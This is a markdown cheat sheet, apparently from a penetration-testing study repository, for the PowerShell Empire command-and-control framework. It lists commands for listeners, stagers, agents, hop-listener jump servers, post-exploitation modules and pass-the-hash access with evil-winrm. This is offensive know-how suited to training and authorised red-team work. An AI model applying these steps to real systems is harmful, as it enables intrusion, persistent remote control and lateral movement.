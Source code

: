 # POWERSHELL EMPIRE C2 FRAMEWORK 

## LISTENERS

### Listeners in Empire are used to receive connections from stagers.  The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

#### Listener selection: uselistener LISTENER

#### Listener options: options, set OPTION VALUE, set Name NAME, set Host OUR_IP, set Port OUR_PORT

#### Launch listener: execute

#### Stop listener: kill LISTENER_NAME

#### Exit out of this menu: back, Main menu: main

## STAGERS

###  Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

### We can generate stagers in either Empire CLI or Starkiller. In most cases these will be given as script files to be uploaded to the target and executed. Empire gives us a huge range of options for creating and obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

#### Stager generation: usestager (Include space to get a list of available stagers in a dropdown menu)

#### General purpose stager: multi/launcher

#### Specify stager: usestager multi/launcher

#### Stager options: options, set OPTION VALUE set Listener LISTENER_NAME, execute

## AGENTS

#### Agent setup: Copy and paste stager to a script (name of your choice) and then transfer it on to the machine. Or just copy/paste the entire script to compromised machine to connect to the C2 server.

#### Agent interaction: agents (See full list of available agents), interact AGENT_NAME then help (Check your options to execute on compromised machine)

#### Switch back to agents menu: back

#### Kill agent: kill AGENT_NAME

#### Rename agent: rename AGENT_NAME NEW_AGENT_NAME

## HOP LISTENERS

### Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers.

#### Listener creation: uselistener http_hop

#### Hop Listener setup: set RedirectListener FIRST_LISTENER_NAME, set Host COMPROMISED_IP set Port PORT(Above 15000)

#### Execute

#### Generate stager for hop listener: use multi/launcher set Listener http_hop

#### Copy/paste payload to target's command line

## START JUMP SERVER

### Example:

#### mkdir /tmp/hop-EXAMPLE

#### cd /tmp/hop-EXAMPLE

#### Attacker: cd /tmp/http_hop && zip -r hop.zip

#### Transfer the zipped file to compromised machine
 
#### Compromised machine: unzip hop.zip

#### Compromised machine: Create a web server to host the payloads generated by the framework: php -S 0.0.0.0:PORT (Above 15000) &>/dev/null &

## MODULES

#### Module usage on an empire agent: usemodule /PATH/TO/MODULE

#### usemodule: Shows list of modules to be used on target

#### When we choose the module we want to use type: options

#### Configuration: set agent AGENT_NAME, execute

## INCLUDE EMPIRE SCRIPTS ON A REMOTE MACHINE

### Scripts location: /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/

#### evil-winrm -u Administrator -H HASH -i IP -s EMPIRE_DIR

#### download REMOTE_PATH LOCAL_PATH

#### upload LOCAL_PATH REMOTE_PATH

## INTERACTIVE SHELL

### The interactive shell was a new feature in Empire 4.0. It effectively allows you to access a traditional pseudo-command shell from within Starkiller or the Empire CLI Client. This can be used to execute PowerShell commands, as you would in a Powershell reverse shell.

#### shell: Access an interactive shell by typing it on an agent. CTRL+C to return rto shell menu.
